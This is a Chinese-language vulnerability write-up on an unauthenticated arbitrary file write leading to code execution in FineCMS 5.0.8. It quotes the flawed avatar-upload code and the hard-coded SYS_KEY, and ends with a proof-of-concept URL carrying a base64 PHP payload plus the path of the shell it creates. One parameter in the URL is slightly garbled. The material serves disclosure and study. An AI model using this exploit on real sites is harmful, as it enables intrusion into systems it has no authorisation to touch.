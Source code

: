 Finecms 5.0.8 任意代码执行漏洞
==============================

一、漏洞简介
------------

> auth值是由`zero_ci_session`中zero进行md5加密获取到的，无需登陆便有，且每个站点的站长会进行不同的自定义

二、漏洞影响
------------

Finecms 5.0.8

三、复现过程
------------

### 漏洞分析

在`/controllers/Api.php`中的data2函数，大约在第115行，有问题的代码大约在178行

    public function data2() {

        $data = array();

        // 安全码认证
        $auth = $this->input->get('auth', true);
        if ($auth != md5(SYS_KEY)) {
            // 授权认证码不正确
            $data = array('msg' => '授权认证码不正确', 'code' => 0);
        } else {
            // 解析数据
            $cache = '';
            $param = $this->input->get('param');
            if (isset($param['cache']) && $param['cache']) {
                $cache = md5(dr_array2string($param));
                $data = $this->get_cache_data($cache);
            }
            if (!$data) {

                if ($param == 'login') {
                    // 登录认证
                    $code = $this->member_model->login(
                        $this->input->get('username'),
                        $this->input->get('password'),
                        0, 1);
                    if (is_array($code)) {
                        $data = array(
                            'msg' => 'ok',
                            'code' => 1,
                            'return' => $this->member_model->get_member($code['uid'])
                        );
                    } elseif ($code == -1) {
                        $data = array('msg' => fc_lang('会员不存在'), 'code' => 0);
                    } elseif ($code == -2) {
                        $data = array('msg' => fc_lang('密码不正确'), 'code' => 0);
                    } elseif ($code == -3) {
                        $data = array('msg' => fc_lang('Ucenter注册失败'), 'code' => 0);
                    } elseif ($code == -4) {
                        $data = array('msg' => fc_lang('Ucenter：会员名称不合法'), 'code' => 0);
                    }
                } elseif ($param == 'update_avatar') {
                    // 更新头像
                    $uid = (int)$_REQUEST['uid'];
                    $file = $_REQUEST['file'];
                    //
                    // 创建图片存储文件夹
                    $dir = SYS_UPLOAD_PATH.'/member/'.$uid.'/';
                    @dr_dir_delete($dir);
                    if (!is_dir($dir)) {
                        dr_mkdirs($dir);
                    }
                    $file = str_replace(' ', '+', $file);
                    if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                        $new_file = $dir.'0x0.'.$result[2];
                        if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                            $data = array(
                                'msg' => '目录权限不足或磁盘已满',
                                'code' => 0
                            );
                        }

其中，首先

    $file = $_REQUEST['file'];

获取\$file变量

    if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                            $new_file = $dir.'0x0.'.$result[2];
                            if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                                $data = array(
                                    'msg' => '目录权限不足或磁盘已满',
                                    'code' => 0
                                );

然后用preg\_match函数进行正则匹配，因为\$file变量可控，所以\$result也是可控的，从而\$new\_file也是可控的，可以构造为php文件，然后

    file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file))))

对\$result\[1\]进行base64解码，然后写入\$new\_file文件中。显然，是可以任意写文件进行getshell的。所以，我们要让程序能够运行到这些代码，不能在之前就退出了。要经过

     $auth = $this->input->get('auth');
     if ($auth != md5(SYS_KEY))

SYS\_KEY被系统硬编码为24b16fede9a67c9251d3e7c7161c83ac，在`./WWW/config/system.php`中有定义。直接md5加密一次即可绕过

### 漏洞复现

    http://www.0-sec.org:88/index.php?c=api&m=data2&auth=目标站点值¶m=update_avatar&file=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+

无需登录，直接getshell,路径为

    http://www.0-sec.org:88/uploadfile/member/0/0x0.php

1.png

参考链接
--------

> http://4o4notfound.org/index.php/archives/40/
